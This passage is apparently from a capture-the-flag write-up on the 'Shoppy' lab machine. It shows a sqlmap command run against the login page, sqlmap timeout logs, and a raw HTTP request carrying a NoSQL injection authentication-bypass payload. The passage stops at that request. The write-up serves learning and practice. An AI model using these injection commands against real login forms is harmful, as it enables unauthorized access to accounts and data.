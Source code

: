 ## Foothold 

I attempted to run sqlmap against http://shoppy.htb/login, but kept getting timeout errors:

```
[17:43:29] [CRITICAL] connection timed out to the target URL or proxy. sqlmap is going to retry the request(s)
[17:44:59] [CRITICAL] connection timed out to the target URL or proxy
```

 I next ran sqlmap through burp suite and checked the intercepted traffic:

```bash
$sqlmap -u "http://shoppy.htb/login" --data "username=*&password=*" --proxy "http://127.0.0.1:8080" --headers="User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0"
```

![](./2022-12-25-17-47-52-image.png)

At this point, it appeared to my novice eyes as though a WAF (web app firewall) was blocking SQL injection attempts (maybe?) as 'normal' login attempts result in a 302 redirect, not a 504 gateway timeout.

I did notice the timeouts only occur when injecting into user, not password -- so I suspected that this was the exploitable input field..

But the above was a modified intercepted request from Firefox with a legitimate user agent string along with other headers -- so perhaps not a WAF and something else?..

After a little while of unsuccessful SQL Injection both with SQLMap and y, I back tracked a little to look at other injection techniques and started reading [NoSQL injection - HackTricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

I then tried the following to see if I was dealing with some document database that could be injected into:

```
POST /login HTTP/1.1
Content-Length: 42
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Host: shoppy.htb
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Connection: close

username=admin' || 1==1%00&password=foobar
```
